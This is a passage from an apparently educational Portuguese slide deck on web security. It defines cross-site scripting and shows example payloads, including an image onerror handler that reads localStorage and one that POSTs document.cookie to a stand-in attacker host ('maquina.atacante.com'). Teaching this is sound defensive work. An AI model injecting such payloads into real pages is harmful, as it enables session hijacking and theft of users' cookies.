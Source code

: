 - 🐵: Vulnerabilidades no código-fonte
- 🐔: Execução indesejada de script
- 🐸: Escapando/codificando entrada do usuário
- 🦄: Filtrando entrada
- 🐙: Validação de entrada
- 🐧: Validação do lado do cliente
- 🐷: Roubando dados da sessão
- 🐼: Induzindo usuários a realizar ações não intencionadas

</v-clicks>

---

# XSS

<div grid="~ cols-2 gap-4">
<div>
As falhas de XSS ocorrem sempre que uma aplicação inclui dados não-confiáveis numa nova página web sem a validação ou filtragem apropriadas, ou quando atualiza uma página web existente com dados enviados por um utilizador através de uma API do browser que possa criar JavaScript. O XSS permite que atacantes possam executar scripts no browser da vítima, os quais podem raptar sessões do utilizador, descaraterizar sites web ou redirecionar o utilizador para sites maliciosos.
</div>
<div>

<v-click>

### prank
```html
 <iframe width="100%" height="166" scrolling="no"
    frameborder="no" allow="autoplay"
    src="http://ellisonleao.github.io/clumsy-bird/">
 </iframe>
```
</v-click>

<v-click>

### get localStorage/cookie
```html {1-3|5-14|7-12|10|all}
<image src=1 href=1
    onerror="javascript:alert(localStorage[0])">
</image>

<image src=1 href=1
    onerror="
    javascript:fetch('https://maquina.atacante.com/',
        { method: 'POST',
            body: JSON.stringify({
                cookie: document.cookie
            })
        });
">
</image>
```
</v-click>
